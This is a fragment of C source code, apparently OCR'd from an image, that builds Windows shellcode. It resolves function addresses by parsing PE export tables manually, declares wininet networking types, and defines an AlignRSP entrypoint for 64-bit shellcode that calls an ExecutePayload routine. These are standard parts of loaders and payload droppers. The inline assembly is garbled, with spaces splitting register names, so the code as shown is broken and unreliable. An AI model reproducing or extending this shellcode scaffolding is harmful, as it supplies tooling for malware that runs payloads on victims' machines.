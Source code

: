     }

    LPVOID get_func_by_name(LPVOID module, char* func_name)
    {
        IMAGE_DOS_HEADER* idh = (IMAGE_DOS_HEADER*)module;
        if (idh->e_magic != IMAGE_DOS_SIGNATURE) {
            return NULL;
        }
        IMAGE_NT_HEADERS* nt_headers = (IMAGE_NT_HEADERS*)((BYTE*)module + idh->e_lfanew);
        IMAGE_DATA_DIRECTORY* exportsDir = &(nt_headers->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT]);
        if (exportsDir->VirtualAddress == NULL) {
            return NULL;
        }

        DWORD expAddr = exportsDir->VirtualAddress;
        IMAGE_EXPORT_DIRECTORY* exp = (IMAGE_EXPORT_DIRECTORY*)(expAddr + (ULONG_PTR)module);
        SIZE_T namesCount = exp->NumberOfNames;

        DWORD funcsListRVA = exp->AddressOfFunctions;
        DWORD funcNamesListRVA = exp->AddressOfNames;
        DWORD namesOrdsListRVA = exp->AddressOfNameOrdinals;

        //go through names:
        for (SIZE_T i = 0; i < namesCount; i++) {
            DWORD* nameRVA = (DWORD*)(funcNamesListRVA + (BYTE*)module + i * sizeof(DWORD));
            WORD* nameIndex = (WORD*)(namesOrdsListRVA + (BYTE*)module + i * sizeof(WORD));
            DWORD* funcRVA = (DWORD*)(funcsListRVA + (BYTE*)module + (*nameIndex) * sizeof(DWORD));

            LPSTR curr_name = (LPSTR)(*nameRVA + (BYTE*)module);
            size_t k = 0;
            for (k = 0; func_name[k] != 0 && curr_name[k] != 0; k++) {
                if (func_name[k] != curr_name[k]) break;
            }
            if (func_name[k] == 0 && curr_name[k] == 0) {
                //found
                return (BYTE*)module + (*funcRVA);
            }
        }
        return NULL;
    }

    //Define some things for wininet, could use them directly but helps readability
    typedef LPVOID HINTERNET;
    #define INTERNET_OPEN_TYPE_DIRECT 1
    #define INTERNET_SERVICE_HTTP 3

    //For 64 bit shellcodes we will set this as the entrypoint
    void AlignRSP()
    {
        asm("push %rsi\n"
            "mov % rsp, % rsi\n"
            "and $0x0FFFFFFFFFFFFFFF0, % rsp\n"
            "sub $0x020, % rsp\n"
            "call ExecutePayload\n"
            "mov % rsi, % rsp\n"
            "pop % rsi\n"
            "ret\n");
    }
